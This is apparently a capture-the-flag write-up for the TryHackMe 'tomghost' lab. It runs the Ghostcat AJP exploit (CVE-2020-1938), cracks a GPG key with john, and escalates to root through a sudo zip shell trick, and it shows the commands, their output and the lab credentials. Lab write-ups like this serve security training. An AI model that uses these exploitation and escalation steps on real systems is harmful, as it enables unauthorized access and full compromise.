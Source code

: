 # tomghost

**IP:** 10.10.209.147  
**Platform:** THM  
**Difficulty:** Easy  
**OS:** Linux  
**Date:** 07/06/2025

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.209.147 -oA nmap/tomghost
```

| Port | Service    | Version                         |
| ---- | ---------- | ------------------------------- |
| 22   | ssh        | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 53   | tcpwrapped |                                 |
| 8009 | ajp13      | Apache Jserv                    |
| 8080 | http       | Apache Tomcat 9.0.30            |

## Enumeration

After some research, I found an LFI vulnerability `CVE-2020-1938` in the current version of the AJP `48143` in `searchsploit`.
```bash
searchsploit ajp
...                                                                       | php/webapps/3752.txt
Apache Tomcat - AJP Ghostcat File Read/Inclusion                             ...

searchsploit -m 48143
  Exploit: Apache Tomcat - AJP Ghostcat File Read/Inclusion
      URL: https://www.exploit-db.com/exploits/48143
     Path: /usr/share/exploitdb/exploits/multiple/webapps/48143.py
    Codes: CVE-2020-1938
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/wither/CTF/THM/tomghost/files/48143.py
```

## Exploitation

This exploit retrieved the `web.xml` file, which revealed some credentials `skyfuck:8730281lkjlkjdqlksalks`.
```bash
python2 48143.py -p 8009 10.10.209.147
Getting resource at ajp13://10.10.209.147:8009/asdf
...
  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>
...                         
```

I used these to SSH into the machine. THere were two files in the home directory of `skyfuck`, `credential.pgp` and `tryhackme.asc`.
```bash
ssh skyfuck@10.10.209.147

pwd;ls
/home/skyfuck
credential.pgp  tryhackme.asc
```

## Privilege Escalation

I copied the `.asc` file over to my machine and used `gpg2john` to convert it into a crackable hash, which I then passed to `john` to reveal the GPG passphrase.
```bash
scp skyfuck@10.10.209.147:/home/skyfuck/tryhackme.asc .
                                                                              
gpg2john tryhackme.asc > hash 
File tryhackme.asc
                                                                                john hash --wordlist=/usr/share/wordlists/rockyou.txt
                                                                                
...
alexandru        (tryhackme)     
...
```

Decrypting the `.php` file with the passphrase revealed some credentials fora  `merlin` user `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`.
```bash
gpg --import tryhackme.asc
gpg --decrypt credential.pgp 

Enter passphrase: 
...
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

I then logged in as `merlin`, who could run `/usr/bin/zip` as `root` with NOPASSWD. I used this to zip a random file and spawn a privileged shell as `root`.
```bash
su merlin
sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip

cd ~

TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF

id
uid=0(root) gid=0(root) groups=0(root)
```

User flag was in `/home/merlin/user.txt`.
```
cat /home/merlin/user.txt
```

`root` flag was in `/root/root.txt`.
```
cat /root/root.txt
```

## References
- [8009 - Pentesting Apache JServ Protocol (AJP) \| HackTricks - Boitatech](https://hacktricks.boitatech.com.br/pentesting/8009-pentesting-apache-jserv-protocol-ajp)
- [Busting Ghostcat: Analysis of CVE-2020-1938 \| Trend Micro (UK)](https://www.trendmicro.com/en_gb/research/20/c/busting-ghostcat-an-analysis-of-the-apache-tomcat-vulnerability-cve-2020-1938-and-cnvd-2020-10487.html)
- [Just a moment...](https://superuser.com/questions/46461/decrypt-pgp-file-using-asc-key)
- [zip \| GTFOBins](https://gtfobins.github.io/gtfobins/zip/#sudo)

---
#nmap #searchsploit #ghostcat #ajp-exploit #gpg2john #john #sudo-zip #gtfobins #tomcat #cve-2020-1938 #linux-privesc #thm
